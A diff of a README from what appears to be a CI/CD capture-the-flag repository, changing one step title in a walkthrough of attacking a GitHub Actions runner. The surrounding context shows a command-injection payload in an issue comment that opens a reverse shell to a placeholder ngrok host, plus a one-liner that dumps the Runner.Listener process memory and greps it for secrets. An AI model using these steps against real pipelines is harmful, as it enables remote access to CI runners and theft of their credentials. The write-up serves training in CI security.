

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -215,7 +215,7 @@ Body Issue Comment:
 Where is my bash ??
 ; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
 ```
-5. Dump and check those secrets
+5. Dump `Runner.Listener` process memory and check those secrets
 ``` bash
 sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
 ```
````
